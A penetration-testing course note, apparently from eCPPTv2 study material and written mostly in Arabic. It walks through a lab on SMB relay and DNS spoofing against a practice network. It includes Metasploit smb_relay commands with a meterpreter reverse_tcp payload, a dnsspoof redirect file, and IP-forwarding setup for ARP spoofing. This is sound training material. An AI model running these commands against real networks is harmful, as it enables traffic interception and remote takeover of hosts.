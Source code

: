 # Session 7 (eCPPTv2) - Day 7  
## Penetration Testing: Network Security  

السلام عليكم ورحمة الله وبركاته  

اليوم باذن الله راح نكمل من الي وقفنا عليه امس  

---

معنا اليوم باذن الله اول لاب  

DNS and SMB Relay Attack
------------------------|  

طبعا هجوم الـ Relay نفس الطريقة والفكره لكن الفرق اي بروتوكول تستغل فقط  

You are hired by a small company to perform a security assessment. Your customer is sportsfoo.com and they want your help to test the security of their environment, according to the scope below:

The assumptions of this security engagement are:

You are going to do an internal penetration test, where you will be connected directly into their LAN network 172.16.5.0/24. The scope in this test is only the 172.16.5.0/24 segment

You are in a production network, so you should not lock any user account by guessing their usernames and passwords

The following image represents the LAB environment:

(LAB_environment)[https://ibb.co/PQWwsKq]  

طبعا نقدر نستغل عن طريق الـ MSFconsole  
```bash
msfconsole  
use exploit/windows/smb/smb_relay  
set SRVHOST 172.16.5.101  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST 172.16.5.101  
set SMBHOST 172.16.5.10  
exploit  
```  

طيب الان شغال السيرفر فيه الجوبز و نقدر نتاكد عن طريق كتابة الامر  
```bash
jobs  
```  

الان بنشغل الاداة الثانيه حقت الـ DNS spoofing  
```bash
echo "172.16.5.101 *.sportsfoo.com" > dns [to add the ip and the domain into file name dns]  
dnsspoof -i eth1 -f dns  
```  

Activate the MiTM attack using the ARP Spoofing technique.
Our goal is to poison the traffic between our victim, Windows 7 at 172.16.5.5 , and the default gateway at 172.16.5.1 . In this way, we can manipulate the traffic using dnsspoof , which is already running. In order to perform an ARP Spoofing  
attack, we need to enable the IP forwarding as follow:  
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward  
```  
